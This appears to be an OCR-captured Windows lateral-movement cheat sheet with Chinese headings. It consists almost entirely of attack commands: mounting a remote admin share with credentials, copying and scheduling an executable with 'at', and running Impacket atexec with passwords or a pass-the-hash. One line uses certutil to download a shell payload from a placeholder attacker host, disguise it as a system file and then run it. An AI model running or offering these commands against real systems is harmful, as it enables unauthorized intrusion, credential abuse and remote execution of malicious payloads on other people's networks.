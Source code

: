 	>net use \\192.168.1.2\ipc$ "password" /user:domain\administrator
	>copy 1.exe \\192.168.1.2\c$
	>net time \\192.168.1.2
	>at \\192.168.1.2 1:00AM c:\1.exe
	>at \\192.168.1.2 1:00AM cmd.exe /c “ipconfig >c:/1.txt”
	>type \\192.168.1.2\c$\1.txt
	查看计划任务
	>at \\192.168.1.2
	删除计划任务
	>at \\192.168.1.2 计划ID /delete
	Atexec.exe hacker/administrator:abc123@192.168.1.1 "whoami"
	Atexec.exe -hashes :fac5d668099409cb6fa223a32ea493b6 hacker/administrator@192.168.1.1 "whoami"
	Atexec横向批量上线（需开启445）
	>atexec.exe ./administrator:pass@10.1.1.1 "certutil.exe -urlcache -split -f http://youip.com:80/shell.txt c:/windows/debug/SysDug.exe" 
	>atexec.exe ./administrator:pass@10.1.1.1 "c:/windows/debug/SysDug.exe" 
	>atexec.exe ./administrator:pass@10.1.1.1 "certutil.exe -urlcache -split -f c:/windows/debug/SysDug.exe delete"
